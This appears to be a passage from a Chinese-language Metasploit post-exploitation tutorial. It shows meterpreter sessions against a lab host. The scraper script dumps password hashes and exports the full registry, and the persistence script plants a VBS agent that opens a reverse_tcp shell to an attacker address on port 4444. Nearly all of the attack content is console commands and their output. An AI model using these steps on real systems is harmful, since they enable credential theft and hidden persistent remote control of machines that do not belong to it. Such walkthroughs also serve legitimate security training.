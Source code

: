 ### 获取系统信息

通过scraper脚本可以列举处用户想要的所有信息

```
meterpreter > run scraper 
[*] New session on 10.10.10.132:445...
[*] Gathering basic system information...
[*] Dumping password hashes...
[*] Obtaining the entire registry...
[*]  Exporting HKCU
[*]  Downloading HKCU (C:\Windows\TEMP\AoxTqVci.reg)
[*]  Cleaning HKCU
[*]  Exporting HKLM
[*]  Downloading HKLM (C:\Windows\TEMP\xaFqszRg.reg)
[*]  Cleaning HKLM
[*]  Exporting HKCC
[*]  Downloading HKCC (C:\Windows\TEMP\OqrObWNV.reg)
[*]  Cleaning HKCC
[*]  Exporting HKCR
[*]  Downloading HKCR (C:\Windows\TEMP\rAJZLqAf.reg)
[*]  Cleaning HKCR
[*]  Exporting HKU
[*]  Downloading HKU (C:\Windows\TEMP\esDrHZoB.reg)
[*]  Cleaning HKU
[*] Completed processing on 10.10.10.132:445...
```

## 创建持久后门

使用persistence脚本和metsv创建持久后门

```
meterpreter > run persistence 

[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[*] Running Persistence Script
[*] Resource file for cleanup created at /root/.msf4/logs/persistence/WIN-ITNJLFM93P3_20210521.0320/WIN-ITNJLFM93P3_20210521.0320.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=10.10.10.128 LPORT=4444
[*] Persistent agent script is 99668 bytes long
[+] Persistent Script written to C:\Windows\TEMP\ArDebnpVV.vbs
[*] Executing script C:\Windows\TEMP\ArDebnpVV.vbs
[+] Agent executed with PID 2524
```

可以通过

```
run peresistence -h
```

来查看帮助信息，创建自定义后门
